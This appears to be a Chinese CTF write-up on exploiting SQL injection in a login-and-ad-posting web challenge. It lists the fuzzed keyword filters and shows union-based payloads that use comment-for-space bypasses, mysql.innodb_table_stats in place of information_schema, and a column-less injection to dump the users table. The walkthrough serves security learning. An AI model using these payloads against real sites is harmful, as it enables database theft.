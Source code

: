 ### innodb_table_stats 绕过

![](https://pic1.imgdb.cn/item/67b31551d0e0a243d40041ad.png)

打开页面是个登录页面

![](https://pic1.imgdb.cn/item/67b3210bd0e0a243d4004609.png)

先注册一个账号

![](https://pic1.imgdb.cn/item/67b32131d0e0a243d400460d.png)

登录进去有一个申请发布广告

![](https://pic1.imgdb.cn/item/67b3214dd0e0a243d4004611.png)

申请广告时标题输入 and 提示敏感词汇

![](https://pic1.imgdb.cn/item/67b3218bd0e0a243d400461e.png)

换为 ' 申请广告

![](https://pic1.imgdb.cn/item/67b321c7d0e0a243d400462b.png)

点击广告详情

![](https://pic1.imgdb.cn/item/67b321f6d0e0a243d4004631.png)

发现有 SQL 报错

![](https://pic1.imgdb.cn/item/67b321e9d0e0a243d4004630.png)

进行 fuzz 测试发现以下被过滤

```sql
空格被替换为空
or
and
join
--+
#
updatexml
extractvalue
exp
floor
...
```

order by`不能使用，可以使用`group by`或者`into @a, @b, @c, ...

```sql
'group/**/by/**/23,'
```

![](https://pic1.imgdb.cn/item/67b32387d0e0a243d4004673.png)

23 报错说明只有 22，联合查询拿数据库名

```sql
'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

![](https://pic1.imgdb.cn/item/67b32312d0e0a243d4004664.png)

因为这里过滤 `or` 所以也无法使用 `information_schema` 表，也没有 `sys` 表，所以使用 `mysql.innodb_table_stats`

```sql
'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

![](https://pic1.imgdb.cn/item/67b32456d0e0a243d4004688.png)

但是因为没有字段信息可以查，使用无列名注入直接查内容

```sql
'union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

![](https://pic1.imgdb.cn/item/67d7a12b88c538a9b5bfb7e8.png)
